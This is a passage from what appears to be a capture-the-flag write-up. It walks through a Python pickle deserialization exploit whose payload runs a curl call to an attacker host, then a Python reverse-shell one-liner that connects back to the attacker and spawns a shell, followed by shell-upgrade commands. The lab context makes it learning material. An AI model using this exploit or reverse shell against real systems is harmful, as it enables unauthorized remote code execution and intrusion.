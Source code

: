 ### PoC:

```python2
import pickle # change this from 'cPickle'
import os
import base64
import pickletools

class Exploit(object):
    def __reduce__(self):
        # Run a python server on your local machine "python3 -m http.server 80"
        # Use curl to see if payload is being executed
        return (os.system, (("curl <attacker ip>/test"),))

with open("exploit.pickle", "wb") as f:
    pickle.dump(Exploit(), f, pickle.HIGHEST_PROTOCOL)
```

To save you some headache, following the PoC I kept getting an error saying `TypeError: 'bool' object is not iterable` and I wasn't getting a reverse shell.  
After trying for hours and giving up, I found [this write-up](https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-rooms/obscured.md) explaining that:

- This error happens and can be ignored
- You should use python2.7 on the PoC code
- The target site is running on a restricted docker container which means many common tools will not be present. E.g., no wget, no advanced version of bash or whatever.

For some reason it never occured to me to test the payload to see if I can either ping myself or something. Anyway, moving on...

After testing the payload and seeing that it's being executed, I replaced the curl payload with a python reverse-shell payload since I know python is installed on the server

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>", <attacker_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

And we're in...  
![31b80fbbf11c37b21fca33a323d9ba51.png](./_resources/31b80fbbf11c37b21fca33a323d9ba51.png)

```bash
python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
# Background the shell by pressing CTRL+Z
stty raw -echo && fg
```
